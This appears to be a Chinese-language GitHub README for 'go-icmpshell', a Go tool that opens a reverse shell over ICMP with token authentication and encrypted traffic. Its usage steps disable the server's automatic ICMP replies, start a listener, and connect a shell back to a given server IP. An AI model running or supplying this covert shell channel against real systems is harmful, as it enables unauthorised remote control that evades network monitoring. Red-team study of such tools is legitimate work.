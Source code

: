 # go-icmpshell
一款基于 `gopacket` 编写的 icmp 反弹 shell 工具

## Features
- 支持自定义 ICMP 通信 id
- 基于 `token` 进行协商认证
- 针对传输载荷进行有效加密

## Usage
Server 端禁用 ICMP 自动 Reply
```shell
echo "1" >  /proc/sys/net/ipv4/icmp_echo_ignore_all
```

Server 端启动监听
```shell
./server --token [secret]
```

Shell 端通过 ICMP 反弹 Shell
```shell
./shell --token [secret] --ip [server_ip_address]
```